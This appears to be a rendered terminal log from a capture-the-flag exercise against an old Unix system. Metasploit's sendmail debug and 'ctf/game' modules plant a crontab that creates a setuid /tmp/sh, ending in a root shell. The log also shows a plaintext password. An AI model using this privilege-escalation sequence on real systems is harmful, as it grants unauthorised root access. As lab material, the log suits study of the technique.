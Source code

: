 ```
su hunter
Password:msfhack

background

Background session 1? [y/N]  y
msf5 exploit(unix/smtp/morris_sendmail_debug) > use exploit/multi/ctf/game
msf5 exploit(multi/ctf/game) > set session 1
session => 1
msf5 exploit(multi/ctf/game) > run

[-] Exploit aborted due to failure: not-vulnerable: Set ForceExploit to override
[*] Exploit completed, but no session was created.
msf5 exploit(multi/ctf/game) > options

Module options (exploit/multi/ctf/game):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   MOVEMAIL  /etc/movemail    yes       Path to movemail
   SESSION   1                yes       The session to run this module on.


Payload options (cmd/unix/generic):

   Name  Current Setting                       Required  Description
   ----  ---------------                       --------  -----------
   CMD   cp /bin/sh /tmp && chmod u+s /tmp/sh  yes       The command string to execute


Exploit target:

   Id  Name
   --  ----
   0   /usr/lib/crontab.local


msf5 exploit(multi/ctf/game) > set movemail /usr/guest/hunter/movemail
movemail => /usr/guest/hunter/movemail
msf5 exploit(multi/ctf/game) > run

[*] Preparing crontab with payload
[*] Creating writable /usr/lib/crontab.local
[+] Writing crontab to /usr/lib/crontab.local
[!] Please wait at least one minute for effect
[*] Exploit completed, but no session was created.
msf5 exploit(multi/ctf/game) > sessions -i 1
[*] Starting interaction with 1...

/tmp/sh -c sh
whoami
root
```

